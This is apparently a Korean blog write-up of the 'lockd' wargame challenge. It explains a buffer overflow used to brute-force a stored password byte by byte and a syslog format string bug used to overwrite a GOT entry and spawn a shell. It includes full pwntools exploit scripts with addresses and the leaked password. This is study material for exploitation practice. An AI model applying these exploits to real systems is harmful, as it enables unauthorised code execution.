 ```yaml
---
layout: post
title: "lockd"
comments : true
category : War Game
---
```


# 문제
***

lockd 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
lockd: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=784b63a128e6fe76512ae058e30be767450c8e7a, stripped
```

바이너리 코드

__sub_8048A7D()__
```
int sub_8048A7D()
{
...
  v7 = __readgsdword(0x14u);
  stream = fopen("password", "rb");
  fread(&ptr, 1u, 0x10u, stream);
  fclose(stream);
  dword_804A0A4 = *(_DWORD *)&ptr;
  dword_804A0A8 = v4;
  dword_804A0AC = v5;
  dword_804A0B0 = v6;
  printf("Input master key > ");
  read(0, &buf, 0x28u);
  return memcmp(&ptr, &buf, 0x10u);
}
```

__sub_8048A7D()__의 read 함수에서 buffer overflow 취약점이 존재한다. 그리고 bof를 통해서 ptr 영역에 overwrite함으로써 password를 알 수 있다. 방법은 다음과 같다.

(X는 내가 넣은 특정한 문자를 의미하고 ?는 0x00에서 0xff 사이의 임의의 값을 의미한다. 그리고 Y는 fread를 통해 ptr에 읽어온 password의 값이다.)

1. read함수를 통해서 buf의 앞 16바이트에 XXXX XXXX XXXX XXX?를 쓰고 bof를 통해서 ptr을 XXXX XXXX XXXX XXXY와 같이 구성한다.
?에 0x00부터 0xff까지 넣어보면서 memcmp의 return 값이 0일 때를 찾는다. 이를 통해서 Y 값을 알 수 있다.
2. 동일한 방식으로 buf의 앞 16바이트에 XXXX XXXX XXXX XX?Y를 쓰고 ptr을 XXXX XXXX XXXX XXYY와 같이 구성하면 뒤에서 두 번째에 있는 Y값을 알아낼 수 있다.
3. 이 방식을 반복함으로써 password를 알 수 있다.

__sub_804897A()__
```
signed int sub_804897A()
{
  printf("Input master key > ");
  read(0, fmt, 0x14u);
  if ( memcmp(&dword_804A0A4, fmt, 0x10u) )
    return -1;
  sprintf(fmt, "./lock UNLOCK %d %d", dword_804A4C0, dword_804A0A0);
  system(fmt);
  printf("Your name > ");
  read(0, &unk_804A2C0, 0x190u);
  sprintf(fmt, "UNLOCK %d-%d by %s", dword_804A4C0, dword_804A0A0, &unk_804A2C0);
  syslog(0xD, fmt);
  return 0;
}
```

```void syslog(int priority, const char *format, ...);``` 
syslog 함수는 두 번쨰 인자로 const char *format을 받는다. 그런데 __sub_804897A()__, __sub_8048877()__ 에서 syslog 함수를 ```syslog(0xD, fmt);``` 와 같이 사용하기 때문에 fsb 취약점이 존재한다. 

## exploit 방법
1.  __sub_8048A7D()__에 존재하는 취약점을 이용해서 password를 알아낸다. (이를 통해서 __sub_804897A()__의 if문을 통과할 수 있다.)
2. fsb를 이용해서 __sub_804897A()__의 sfp에 sprintf의 got값을 넣는다. (앞의 read에서 fmt에 20바이트를 넣기 때문에 password 뒤에 ""\x0a"*2 + "sh" (뒤에 null 존재)을 넣고 바로  system을 호출하면 쉘을 딸 수 있다. 그런데 sprintf에서 17바이트를 출력한 후에 \x00을 넣어버려서 ```system("sh")```가 호출되지 않는다. "\x0a"+"sh" 앞에 null이 들어가는 것을 막기 위해서 sprintf 대신 printf를 호출하게 하려고 한다.)
3. fsb를 이용해서 sprintf_got에 printf_plt 주소를 덮어쓴다.
4. fmt를 password + "\x0a" + "sh" + "\x00" 으로 구성하면 system(fmt)에서 쉘을 딸 수 있다.

# 풀이
***

__leak_pw.py__
```
#!/usr/bin/python

from pwn import *

file_path="/home/lockd/lockd"

def sd_key(p,key):
	p.recvuntil("floor > ")
        p.sendline("1")
        p.recvuntil("number > ")
        p.sendline("1")
        p.recvuntil("key > ")
        p.send(key)
	p.recv()
	p.close()

masterkey="A"*16
masterkey=list(masterkey)

for i in range(16):
	for j in range(0x100):
		dummy="A"*4
		key="A"*(15-i)
		masterkey[15-i]=p32(j)[0]

		try:
			p=process(file_path)
			sd_key(p,''.join(masterkey)+dummy+key)
		except:
			p.close()
		else:
			break

print ''.join(masterkey)
```

__exploit.py__
```
#!/usr/bin/python

from pwn import *

def sel_2(pay):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("key > ")
	p.send(password+"\x0a"+"sh"+"\x00")
	p.recvuntil("name > ")
	p.send(pay)

password="c39f30e348c07297"

file_path="/home/lockd/lockd"
p=process(file_path)

p.recvuntil("floor > ")
p.sendline("1")
p.recvuntil("number > ")
p.sendline("1")
p.recvuntil("key > ")
p.send(password)

sprintf_got=0x804a03c
printf_plt=0x8048570

name="%"+str(sprintf_got-14)+"d"+"%9$n"
sel_2(name)

name2="%"+str(printf_plt-14)+"d"+"%21$n"
sel_2(name2)

p.recvuntil("> ")
p.sendline("2")
p.recvuntil("key > ")
p.send(password+"\x0a"+"sh"+"\x00")

p.interactive()
```

# 알게 된 것
***
1. gdb에서 디버깅 하다가 자식 프로세스 생기면 (여기서는 syslog에 의해서 생김) 동작이 멈춰버리니까 set follow-fork parent (child)를 꼭 해주자.
2. ```int printf ( const char * format, ... );```나 ```void syslog(int priority, const char *format, ...);``` 처럼 인자로 format 지정 문자열이 존재할 때 ```printf(fsb);```, ```syslog(13,fsb);```와 같이 구성하면 format string bug가 존재한다.
(format 지정 문자열 뒤에 인자가 없는 경우, or 서식 문자보다 뒤에 있는 인자의 수가 적은 )
3. ```void syslog(int priority, const char * format);```


   syslog 함수는 syslogd 데몬에게 메세지를 전송한다. (시스템에서 로그 메세지를 처리하기 위해서 제공하는 표준 인터페이스)
   
   syslogd 데몬은 받은 메세지를 /etc/syslog.conf에 설정된 규칙에 따라서 파일에 기록, 화면에 출력, 또는 다른 호스트에 있는 또다른 syslogd 데몬에게 포워딩한다.

   priority는 priority (메세지의 우선순위)와 facility (메세지를 발생시킨 프로그램의 종류 대한 flag)의 OR 연산을 통해 만들어짐
 

4. (password를 알아내는 방법과 같은) 다양한 방법을 생각 해보자???


